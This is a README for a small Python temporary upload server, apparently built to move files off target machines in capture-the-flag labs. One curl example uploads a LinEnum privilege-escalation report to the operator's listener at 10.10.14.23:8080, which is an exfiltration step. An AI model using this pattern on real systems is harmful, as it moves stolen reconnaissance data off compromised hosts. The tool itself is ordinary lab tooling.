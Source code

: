 ## TempUpload

A Upload Server For temporary use mostly helpful in ctfs etc.


## Features

- Works Fine on Both Windows and Linux.
- `localhost/list' => List all Files in Working Directory
- `localhost/upload' => Upload using Browser
- Only Uploading is implemented Directory listing is disabled 
- ['.py,'.ipynb'] are blacklisted can be changed in code.


## Uploading Using CLI

### Linux
- Using Curl
```shell
curl -F filename=@LinEnum_report 10.10.14.23:8080
```


### Windows Powershell
- Uploading via powershell depends on powershell version, check powershell.txt for more commands
- I would Strongly recommend using curl.exe `https://curl.se/download.html`
```shell
$Uri = 'http://localhost:8080/'
$Form = @{
    filename     = Get-Item -Path 'c:\Pictures\jdoe.png'
}
$Result = Invoke-WebRequest -Uri $Uri -Method Post -Form $Form
```

### Usage
```shell
$ python upserver.py -h
usage: upserver.py [-h] [-p PORT] [-d DIRECTORY]

A Simple http server to upload for temporary use

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port to use avoid using 80,443 for non root user
  -d DIRECTORY, --directory DIRECTORY
                        Working Directory

```


## Built With

* [Python3]

### License
